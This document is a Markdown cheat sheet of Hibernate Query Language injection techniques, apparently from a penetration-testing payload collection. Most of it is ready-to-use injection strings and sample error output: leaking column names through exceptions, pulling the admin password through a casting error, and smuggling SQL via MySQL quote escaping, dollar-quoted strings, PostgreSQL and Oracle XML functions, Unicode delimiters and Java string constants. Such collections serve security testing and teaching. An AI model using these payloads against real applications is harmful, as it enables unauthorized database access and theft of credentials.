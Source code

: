 # Hibernate Query Language Injection 

> Hibernate ORM (Hibernate in short) is an object-relational mapping tool for the Java programming language. It provides a framework for mapping an object-oriented domain model to a relational database. - Wikipedia

## Summary

* [HQL Comments](#hql-comments)
* [HQL List Columns](#hql-list-columns)
* [HQL Error Based](#hql-error-based)
* [Single Quote Escaping](#single-quote-escaping)
* [$-quoted strings](#--quoted-strings)
* [DBMS Magic functions](#dbms-magic-functions)
* [Unicode](#unicode)
* [Java constants](#java-constants)
* [Methods by DBMS](#methods-by-dbms)
* [References](#references)

:warning: Your input will always be between the percentage symbols: `%INJECT_HERE%`

## HQL Comments

```sql
HQL does not support comments
```

## HQL List Columns

```sql
from BlogPosts
where title like '%'
  and DOESNT_EXIST=1 and ''='%' -- 
  and published = true
```

Using an unexisting column will an exception leaking several columns names.

```sql
org.hibernate.exception.SQLGrammarException: Column "DOESNT_EXIST" not found; SQL statement:
      select blogposts0_.id as id21_, blogposts0_.author as author21_, blogposts0_.promoCode as promo3_21_, blogposts0_.title as title21_, blogposts0_.published as published21_ from BlogPosts blogposts0_ where blogposts0_.title like '%' or DOESNT_EXIST='%' and blogposts0_.published=1 [42122-159]
```

## HQL Error Based

```sql
from BlogPosts
where title like '%11'
  and (select password from User where username='admin')=1
  or ''='%'
  and published = true
```

Error based on value casting.

```sql
Data conversion error converting "d41d8cd98f00b204e9800998ecf8427e"; SQL statement:
select blogposts0_.id as id18_, blogposts0_.author as author18_, blogposts0_.promotionCode as promotio3_18_, blogposts0_.title as title18_, blogposts0_.visible as visible18_ from BlogPosts blogposts0_ where blogposts0_.title like '%11' and (select user1_.password from User user1_ where user1_.username = 'admin')=1 or ''='%' and blogposts0_.published=1
```

:warning: **HQL does not support UNION queries**

## Single Quote Escaping

Method works for MySQL DBMS which escapes SINGLE QUOTES in strings with SLASH `\'`.

In HQL SINGLE QUOTES is escaped in strings by doubling `''`.

```
'abc\''or 1=(select 1)--'
```

In HQL it is a string, in MySQL it is a string and additional SQL expression.

## $-quoted strings

Method works for DBMS which allow DOLLAR-QUOTED strings in SQL expressions: PostgreSQL, H2.

Hibernate ORM allows identifiers starting with `$$`.

```
$$='$$=concat(chr(61),chr(39)) and 1=1--'
```

## DBMS Magic functions

Method works for DBMS which have MAGIC FUNCTIONS which evaluate SQL expression in string parameter: PostgreSQL, Oracle.

Hibernate allows to specify any function name in HQL expression.

PostgreSQL has built-in function `query_to_xml('Arbitrary SQL')`.

```
array_upper(xpath('row',query_to_xml('select 1 where 1337>1', true, false,'')),1)
```

Oracle has built-in function `DBMS_XMLGEN.getxml('SQL')`

```
NVL(TO_CHAR(DBMS_XMLGEN.getxml('select 1 where 1337>1')),'1')!='1'
```

## Unicode

Method works for DBMS which allow UNICODE delimiters (Ex. U+00A0) between SQL tokens: Microsoft SQL Server, H2.

In Microsoft SQL SERVER `SELECT LEN([U+00A0](select[U+00A0](1))` works the same as `SELECT LEN((SELECT(1)))`;

HQL allows UNICODE symbols in identifiers (function or parameter names).

```
SELECT p FROM hqli.persistent.Post p where p.name='dummy' or 1<LEN( (select top 1 name from users)) or '1'='11'
```

## Java constants

Method works for most DBMS (does not work for MySQL).

Hibernate resolves Java public static fields (Java constants) in HQL queries:

- Class with Java constant must be in classpath
- Ex. `java.lang.Character.SIZE` is resolved to 16
- String or char constants are additionally surrounded by single quotes

To use JAVA CONSTANTS method we need special char or  string fields declared in classes or interfaces on classpath.

```java
public class Constants {
    public static final String S_QUOTE = "'";
    public static final String HQL_PART = "select * from Post where name = '";
    public static final char C_QUOTE_1 = '\'';
    public static final char C_QUOTE_2 = '\047';
    public static final char C_QUOTE_3 = 39;
    public static final char C_QUOTE_4 = 0x27;
    public static final char C_QUOTE_5 = 047;
}
```

Some usable constants in well-known Java libraries:

```ps1
org.apache.batik.util.XMLConstants.XML_CHAR_APOS         [ Apache Batik ]
com.ibm.icu.impl.PatternTokenizer.SINGLE_QUOTE           [ ICU4J ]
jodd.util.StringPool.SINGLE_QUOTE                        [ Jodd ]
ch.qos.logback.core.CoreConstants.SINGLE_QUOTE_CHAR      [ Logback ]
cz.vutbr.web.csskit.OutputUtil.STRING_OPENING            [ jStyleParser ]
com.sun.java.help.impl.DocPConst.QUOTE                   [ JavaHelp ]
org.eclipse.help.internal.webapp.utils.JSonHelper.QUOTE  [ EclipseHelp ]
```

```
dummy' and hqli.persistent.Constants.C_QUOTE_1*X('<>CHAR(41) and (select count(1) from sysibm.sysdummy1)>0 --')=1 and '1'='1
```

## Methods by DBMS

![image](https://user-images.githubusercontent.com/16578570/163428666-a22105a8-287c-4997-8aef-8f372a1b86e9.png)

## References

* [HQL for pentesters - February 12, 2014 - Philippe Arteau](https://blog.h3xstream.com/2014/02/hql-for-pentesters.html)
* [How to put a comment into HQL (Hibernate Query Language)? - Thomas Bratt](https://stackoverflow.com/questions/3196975/how-to-put-a-comment-into-hql-hibernate-query-language)
* [HQL : Hyperinsane Query Language - 04/06/2015 - Renaud Dubourguais](https://www.synacktiv.com/resources/hql2sql_sstic_2015_en.pdf)
* [ORM2Pwn: Exploiting injections in Hibernate ORM - Nov 26, 2015 - Mikhail Egorov](https://www.slideshare.net/0ang3el/orm2pwn-exploiting-injections-in-hibernate-orm)
* [New Methods for Exploiting ORM Injections in Java Applications - HITBSecConf2016 - Mikhail Egorov - Sergey Soldatov](https://conference.hitb.org/hitbsecconf2016ams/materials/D2T2%20-%20Mikhail%20Egorov%20and%20Sergey%20Soldatov%20-%20New%20Methods%20for%20Exploiting%20ORM%20Injections%20in%20Java%20Applications.pdf)
* [HQL Injection Exploitation in MySQL - July 18, 2019 - Olga Barinova](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/hql-injection-exploitation-in-mysql/)
